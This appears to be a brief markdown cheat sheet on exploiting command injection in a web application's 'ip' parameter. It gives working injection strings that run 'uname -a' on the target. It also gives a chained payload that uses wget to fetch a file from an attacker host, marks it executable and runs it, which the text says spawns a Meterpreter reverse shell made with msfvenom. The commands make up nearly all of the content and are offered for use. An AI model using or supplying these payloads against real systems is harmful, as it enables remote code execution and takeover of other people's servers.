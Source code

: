 ### If the web application is vulnerable to Command Injection...

### From a terminal this will filter Curl and only print the OS and architecture of the web application host.
```
curl http://<IP>/<Subdirectory>/example1.php?ip=";uname%20-a" 2>&1 | awk '/<pre>/{flag=1;next}/pre>/{flag=0}flag'
```
Alternatively you can also just enter "uname -a" directly into the web browser address bar in this format.
```
http://<IP>/<Subdirectory>/example1.php?ip=127.0.0.1;uname -a
```

### This example is a series of commands to get your target to download an exploit. I created a reverse shell using msfvenom, loaded a payload in Metasploit, launched a Python SimpleHTTPServer, then appended the below script to the web browsers address bar. If properly executed Metasploit spawn a Meterpreter session.
```
ip=127.0.0.1;wget%20-O%20/tmp/cmd%20http://192.168.145.128/cmd;chmod%20755%20/tmp/cmd;/tmp/cmd
```
